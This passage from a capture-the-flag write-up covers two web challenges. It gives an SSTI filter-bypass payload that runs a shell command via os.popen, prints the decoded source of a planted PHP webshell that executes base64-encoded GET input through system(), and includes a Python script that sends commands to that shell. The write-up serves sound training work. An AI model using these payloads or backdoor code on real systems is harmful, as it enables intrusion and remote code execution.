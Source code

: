 - [x] Solution : By reading the code i can tell it's an SSTI, but not the usual injection which uses `{{ }}` for Expressions to print to the template output, cuz brackets are filtered so i tried `{% raw  %} {% ... %} {% endraw %}` for Statements, like when i used `{% raw  %} {% set v=6/2 %} {% endraw %}` works fine but when i tired `{% raw  %} {% set v=6/0 %} {% endraw %}` gives back error, so this will be our entry : bypass `.` with `|` and bypass filtred functions by hexify those keywords like `\x5f` gives `_` and so on ...

```python
# cat flag.txt : \x63\x61\x74\x20\x66\x6c\x61\x67\x2e\x74\x78\x74
{% raw %} {%print(lipsum|attr('\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f'))|attr('\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f')('\x6f\x73')|attr('\x70\x6f\x70\x65\x6e')('\x63\x61\x74\x20\x66\x6c\x61\x67\x2e\x74\x78\x74')|attr('read')()%} {% endraw %}
```

### b4D h4ck3R <Badge type="danger">Hard</Badge>
for this Chall we got website (according to chall description got hacked but hacker keep some kind of access), so first thing to do is scan for a webshells using the famous list from [nicoSWD](https://gist.github.com/nicoSWD/5d13af1131a944dc2af856e0675b872b), and found p0wny-shell.php, but seems dead end!, not until few enumeration to hit this vulnerable param `?page=` to LFI, just read source code of this shell, u'll find it encoded use this online tool to decode it & save time [unphp](https://www.unphp.net/), util we got this minified code : 
```php
$erzo_f851f55b = [
base64_decode('ZmxhZ3sjX2FiY2RlZn0='), base64_decode('ZmxhZ3tiMHdfYjB3fQ=='), base64_decode('ZmxhZ3t0ZXRfZmxhZ30='), base64_decode('ZmxhZ3s5OSF6elN3Y30='), base64_decode('ZmxhZ3tkZWJ1R19mdHd9'), base64_decode('ZmxhZ3toZWxsX3llYWh9'), base64_decode('ZmxhZ3t0NHN0fQ==') ];
$igxc_9ce88802 = '';
$bbmg_1b267619 = 0;
foreach ($erzo_f851f55b as & $djkg_417c4fa3) {
    $igxc_9ce88802 = $djkg_417c4fa3[$bbmg_1b267619] . $igxc_9ce88802;
    $bbmg_1b267619++;
};
if (isset($_GET[$igxc_9ce88802])) {
    $grxe_fd6b6fc9 = $_GET[$igxc_9ce88802];
    $pgck_32cfe6c1 = base64_decode($grxe_fd6b6fc9);
    $jipp_8a561003 = substr($pgck_32cfe6c1, 5, -5);
    echo $jipp_8a561003;
    system($jipp_8a561003);
} else {
    echo base64_decode('NDA0');
};

```
in brief, as u see the system command get encoded b64 payload from GET param which is this var `igxc_9ce88802` just execute the code until the foreach to get its value, then we supply our payload : 
```python
import requests, base64

payload = base64.b64encode(b'ls -l /')
url = 'http://18.156.122.209:1234/p0wny-shell.php?4h{galf=' + payload.decode()
print(requests.get(url).text)
```
## Forensics
### squirrel <Badge type="success">Easy</Badge>
### Duck <Badge type="warning">Medium</Badge>
